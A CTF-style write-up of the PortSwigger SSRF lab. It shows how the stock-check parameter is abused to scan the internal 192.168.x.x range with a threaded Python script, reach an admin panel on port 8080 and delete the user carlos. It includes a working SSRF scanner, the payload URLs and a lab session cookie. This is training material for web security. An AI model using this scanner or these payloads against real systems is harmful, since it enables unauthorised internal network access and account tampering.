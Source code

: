 # Basic SSRF against another back-end system

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system), you'll learn: Basic SSRF against another back-end system! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224021054.png)

In the previous lab, we found that **there is a Server-Side Request Forgery(SSRF) vulnerability in the stock check functionality**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224021144.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224021207.png)

When we clicked the `Check stock` button, **it'll send a POST request to `/product/stock`, with parameter `stockApi`, and the value is interesting:**

**URL decoded:**
```
http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
```

As you can see, it's fetching data from an internal system.

> Note: IPv4 class C private IP address range is from `192.168.0.0` to `192.168.255.255`.

**Now, what if I change the IP address to `192.168.0.2`?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224021622.png)

**HTTP status 500, Internal Server Error.**

**Armed with above information, we can scan the entire IPv4 class C private IP address range!**

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(url, cookie, IP):
    # Exclude IP 192.168.0.1, which is the stock API address
    if IP == '192.168.0.1':
        return

    data = {
        'stockApi': f'http://{IP}:8080/'
    }

    # Send a POST request to /product/stock, and the data is SSRF payload
    postStockStatusCode = requests.post(url, cookies=cookie, data=data).status_code

    # Using \r to clean previous line
    print(f'[*] Trying IP: {IP}', end='\r')

    if postStockStatusCode != 500:
        print(f'[+] Found valid internal IP addres: {IP}')

def main():
    url = 'https://0ac0003804fb904cc09c4fbf00ec00dc.web-security-academy.net/product/stock'
    cookie = {'session': 'SJCJgVBSnjDBYBwoVILv3a5gcV5F2PQ4'}

    # Generate a list of class C IPv4 private IP addresses, from 192.168.0.0 to 192.168.255.255
    listIPAddress = list()

    for thridOctet in range(256):
        for fourthOctet in range(256):
            listIPAddress.append(f'192.168.{thridOctet}.{fourthOctet}')

    # For each private IP address, spawn a new thread to function sendRequest(url, cookie, IP)
    for IP in listIPAddress:
        thread = Thread(target=sendRequest, args=(url, cookie, IP))
        thread.start()

        # You can adjust how fast of each connection, 0.1s is recommended 
        sleep(0.1)


if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Server-Side-Request-Forgery]
└─# python3 ssrf_priv_ip.py
[+] Found valid internal IP addres: 192.168.0.176
```

**Now, let's try to go to `http://192.168.0.176:8080/` via our SSRF payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224024706.png)

**Not found, do I need to supply `/admin` for the admin panel?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224024734.png)

**Nice! Let's delete user `carlos`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224024806.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224024824.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224024830.png)

We did it!

# What we've learned:

1. Basic SSRF against another back-end system